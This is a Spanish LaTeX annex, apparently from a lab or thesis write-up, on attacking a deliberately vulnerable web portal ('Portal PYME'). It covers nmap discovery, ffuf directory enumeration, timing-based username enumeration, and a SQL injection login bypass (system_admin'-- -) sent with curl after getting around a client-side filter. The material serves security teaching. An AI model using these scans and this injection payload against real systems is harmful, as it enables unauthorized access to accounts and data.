\crearanexo{Reconocimiento inicial y explotación del login}{anexo:reconocimiento_login}

% ---------------------------------------------------

\subsubsection*{Objetivo}

El objetivo de esta fase es identificar la máquina expuesta del laboratorio, localizar el servicio web vulnerable y obtener acceso al panel interno del Portal PYME mediante el análisis del mecanismo de autenticación.

\subsubsection*{Descubrimiento de la máquina objetivo}

Antes de analizar la aplicación web es necesario localizar la dirección IP del servidor expuesto. Desde la máquina atacante se realiza un escaneo de descubrimiento sobre el segmento de red correspondiente.

\begin{bashbox}
sudo nmap -sn 192.168.129.0/24
\end{bashbox}

Una vez identificada la dirección IP del servidor Ubuntu, se realiza un escaneo de puertos para determinar los servicios publicados.

\begin{bashbox}
nmap -sV -sC -p- <IP_SERVIDOR>
\end{bashbox}

El resultado esperado muestra un servicio HTTP publicado en el puerto \texttt{8080}:

\begin{configbox}
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd
\end{configbox}

El portal puede consultarse desde el navegador mediante la siguiente URL:

\begin{configbox}
http://<IP_SERVIDOR>:8080/
\end{configbox}

\subsubsection*{Enumeración de directorios}

Tras confirmar la existencia del servicio web, se enumeran rutas y recursos internos de la aplicación.

\begin{bashbox}
ffuf -u http://<IP_SERVIDOR>:8080/FUZZ \
-w /usr/share/wordlists/dirb/common.txt \
-e .php,.txt,.html,.sql,.css,.jpg,.png \
-recursion \
-recursion-depth 2 \
-fc 403 \
-c \
-o resultado.json \
-of json
\end{bashbox}

Entre los recursos de mayor interés se encuentran:

\begin{configbox}
/login.php
/backend/panel.php
/config/db.php
/ticket.php
/uploads/
\end{configbox}

La presencia del directorio \texttt{/uploads/} es especialmente relevante, ya que más adelante permitirá validar una vulnerabilidad de carga de archivos.

\subsubsection*{Análisis del login}

El formulario de autenticación se encuentra en:

\begin{configbox}
http://<IP_SERVIDOR>:8080/login.php
\end{configbox}

La petición enviada por el formulario contiene los campos \texttt{username} y \texttt{password}:

\begin{configbox}
POST /login.php HTTP/1.1

username=admin&password=test
\end{configbox}

Las pruebas iniciales no muestran diferencias claras entre usuarios válidos e inválidos: el código HTTP, el tamaño de respuesta y las redirecciones permanecen constantes. No obstante, el análisis temporal de las respuestas permite identificar un comportamiento anómalo asociado al usuario \texttt{system\_admin}, lo que indica que dicho usuario existe en la base de datos.

\subsubsection*{Bypass del filtro del lado cliente}

El formulario implementa un filtro JavaScript que elimina determinados caracteres, como la comilla simple o el carácter \texttt{\#}. Sin embargo, esta validación se ejecuta únicamente en el navegador y puede evitarse enviando la petición directamente al servidor.

El payload utilizado para explotar el login es:

\begin{configbox}
system_admin'-- -
\end{configbox}

La comilla simple cierra la cadena del usuario en la consulta SQL y la secuencia \texttt{-- -} comenta el resto de la consulta, anulando la comprobación de contraseña.

La petición puede enviarse directamente mediante \texttt{curl}:

\begin{bashbox}
curl -i -X POST \
http://<IP_SERVIDOR>:8080/login.php \
-d "username=system_admin'-- -&password=test"
\end{bashbox}

También puede reproducirse desde un proxy de interceptación como Burp Suite, modificando manualmente el parámetro \texttt{username} antes de reenviar la petición.

Tras este bypass, el servidor responde con un código HTTP 302 y redirige al panel interno del portal:

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.85\textwidth]{Imagenes/portal_interno.png}

    \vspace{0.2cm}
    \captionazul{Acceso al panel interno del Portal PYME tras explotar el formulario de autenticación.}
    \label{fig:anexo_portal_interno}
\end{figure}
